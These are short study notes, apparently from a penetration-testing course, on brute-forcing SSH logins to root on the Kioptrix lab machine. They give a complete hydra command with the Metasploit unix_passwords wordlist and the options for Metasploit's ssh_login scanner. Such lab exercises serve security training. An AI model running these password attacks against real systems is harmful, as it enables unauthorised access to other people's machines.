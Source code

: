 
# Brute force

Author explains blue team/red team concepts,
where as a blue team he would be as loud as possible, and trigger detections for
assessments.

Author runs the following command:
`hydra -l root -P metasploit/data/wordlists/unix_passwords.txt ssh://<kioptrix_ip> -t 4 -V`

Also runs the module `auxiliary/scanner/ssh/ssh_login` from metasploit. Uses the options:
* RHOSTS = <kioptrix_ip>
* PASS_FILE = <metasploit unix_passwords wordlist>
* USERNAME = root
* VERBOSE = true
